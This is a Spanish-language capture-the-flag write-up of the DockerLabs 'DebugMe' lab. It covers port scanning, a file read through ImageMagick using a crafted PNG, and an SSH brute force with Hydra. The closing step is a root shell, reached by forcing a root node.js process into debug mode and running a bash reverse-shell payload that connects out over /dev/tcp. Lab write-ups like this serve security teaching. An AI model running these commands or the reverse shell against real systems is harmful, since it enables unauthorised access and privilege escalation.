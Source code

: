 ```yaml
---
author: Lenam
pubDatetime: 2024-07-22T15:22:00Z
title: WriteUp DebugMe - Dockerlabs
slug: debugme-writeup-dockerlabs-es
featured: false
draft: false
ogImage: "../../../assets/images/debugme/OpenGraph.png"
tags:
  - writeup
  - dockerlabs
  - LFI
  - nodejs
description:
  Este desafío de ciberseguridad guía a los participantes a través de una intrusión en un servidor. El proceso implica la enumeración de servicios, la explotación de una vulnerabilidad de LFI, el acceso a SSH mediante fuerza bruta y la escalada de privilegios a través de un proceso de node.js.
lang: es
---
```


Este desafío de ciberseguridad, disponible en <a target="_blank" href="https://dockerlabs.es">DockerLabs</a> (El Pingüino de Mario), guía a los participantes a través de una intrusión en un servidor. El proceso implica la enumeración de servicios, la explotación de una vulnerabilidad de LFI, el acceso a SSH mediante fuerza bruta y la escalada de privilegios a través de un proceso de node.js para lograr acceso root.

## Tabla de contenido 

## Enumeración

```bash
nmap -p- 172.17.0.2 -n -P
```

![nmap all ports](../../../assets/images/debugme/image-1.png)

```bash
nmap -p22,80,443 -sVC -n -Pn 172.17.0.2
```

![nmap ports 22, 80 and 443](../../../assets/images/debugme/image.png)

Visitamos el sitio web en los puertos 80 y 443, y aparece la misma página. Parece ser una herramienta donde podemos seleccionar una imagen y las diferentes versiones de tamaño que queremos para la imagen.

![Resize image](../../../assets/images/debugme/image-2.png)

Al enviar el formulario con una imagen y diferentes versiones, las muestra en una página.

![Result](../../../assets/images/debugme/image-3.png)

Hacemos un poco de fuzzing en el servicio web utilizando gobuster.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2/ -x py,php,txt,db,htm,html,back -t 50 -k
```

Encontramos el clásico info.php, con información de PHP.

![gobuster](../../../assets/images/debugme/image-4.png)

En `/info.php`, encontramos un montón de extensiones PHP instaladas y una versión de PHP un poco desactualizada `PHP Version 7.2.24-0ubuntu0.18.04.3`.

También vemos que los módulos `GD` y `Image Magick` están instalados, lo que puede utilizarse para el servicio de transformación de imágenes.

## Intrusión

Es probable que existan diferentes maneras de realizar la intrusión; en este caso, optamos por una posible LFI (creo que esto sería LFI, pero no estoy seguro) que ocurre durante la transformación de ImageMagick.

Más información en:

- https://imagetragick.com/
- https://www.hackplayers.com/2023/02/imagemagick-la-vulnerabilidad-oculta.html

### LFI

Siguiendo las instrucciones de hackplayers, instalamos las dependencias necesarias:

```bash
sudo apt install pngcrush imagemagick exiftool exiv2 -y
```

Usamos un PNG y añadimos el campo de perfil con la ruta que queremos inyectar. Esto creará el archivo pngout.png.

![pngcrush](../../../assets/images/debugme/image-5.png)

Verificamos que se haya añadido correctamente.

```bash
exiv2 -pS pngout.png
```

![alt text](../../../assets/images/debugme/image-6.png)

Ahora usamos la imagen pngout.png en el servicio web, seleccionamos un tamaño y hacemos clic en "Resize".

![Resize payload](../../../assets/images/debugme/image-7.png)

Aparecen las dos imágenes, hacemos clic derecho en una y la descargamos en nuestro Kali, nombrándola resultado.png.

![alt text](../../../assets/images/debugme/image-8.png)

Verificamos si los datos se han filtrado en el perfil.

```bash
identify -verbose resultado.png
```

![alt text](../../../assets/images/debugme/image-9.png)

Parece que los datos se filtraron correctamente. Copiamos todos los bytes hexadecimales del perfil y los ponemos en una sola línea. Luego, los incluimos en el siguiente Python:

```bash
python3 -c 'print(bytes.fromhex("BYTES_IN_HEX").decode("utf-8"))'
```

Y el resultado:

![alt text](../../../assets/images/debugme/image-10.png)

Genial, ahora tenemos un LFI, y podemos ver que hay un usuario llamado `lenam` y otro llamado `application`.

### Fuerza Bruta SSH

Si intentamos buscar otros archivos interesantes, no encontramos nada. Intentamos un ataque de fuerza bruta con el usuario `lenam` utilizando Hydra.

```bash
hydra 172.17.0.2 ssh -t 64 -l lenam -P /usr/share/wordlists/rockyou.txt -f -vV
```

Con un poco de paciencia, encontramos la contraseña SSH para el usuario lenam.

![lenam ssh password](../../../assets/images/debugme/image-11.png)

## Escalada de Privilegios

Accedemos vía SSH utilizando el usuario `lenam` y la contraseña `loverboy`.

![alt text](../../../assets/images/debugme/image-12.png)

Vemos que podemos ejecutar el comando `/bin/kill` como root con la contraseña de lenam.

También observamos los procesos que está ejecutando root y vemos que se está ejecutando un proceso de node.js.

```bash
ps aux | grep root
```

![processes](../../../assets/images/debugme/image-13.png)

Verificamos si hay puertos locales abiertos y encontramos los puertos 8000 y 9000.

```bash
netstat -ano | grep LISTEN
```

![ports](../../../assets/images/debugme/image-14.png)

El puerto 8000 parece ser una aplicación node.js.

```bash
curl 127.0.0.1:8000
```

![alt text](../../../assets/images/debugme/image-15.png)

Como podemos matar cualquier proceso, intentamos abrir el depurador de node.js enviando una señal `SIGUSR1` al proceso de node.js. Esto debería reiniciar la aplicación node.js con el puerto de depuración abierto (por defecto, el puerto 9229) y accesible a través de websockets.

Más información:

- https://nodejs.org/en/learn/getting-started/debugging
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse#starting-inspector-in-running-processes

Para obtener el PID del proceso de node.js:

```bash
ps aux | grep node | grep root | awk '{print $2}'
```

El comando completo:

```bash
sudo /bin/kill -s SIGUSR1 $(ps aux | grep node | grep root | awk '{print $2}')
```

Verificamos si el puerto de depuración e inspección 9229 ahora está abierto.

![port 9229](../../../assets/images/debugme/image-16.png)

¡Bingo! Funcionó. Ahora ingresamos a la aplicación node.js con el inspector.

```bash
node inspect 127.0.0.1:9229
```

![nodejs inspect](../../../assets/images/debugme/image-17.png)

Escuchamos con netcat.

```bash
nc -lvnp 5000
```

Y ejecutamos la siguiente carga útil en la consola de depuración, reemplazando la IP 10.0.2.15 con la tuya.

```javascript
exec("process.mainModule.require('child_process').exec('bash -c \"/bin/bash -i >& /dev/tcp/10.0.2.15/5000 0>&1\"')")
```

![alt text](../../../assets/images/debugme/image-18.png)

Felicidades, ahora somos root.
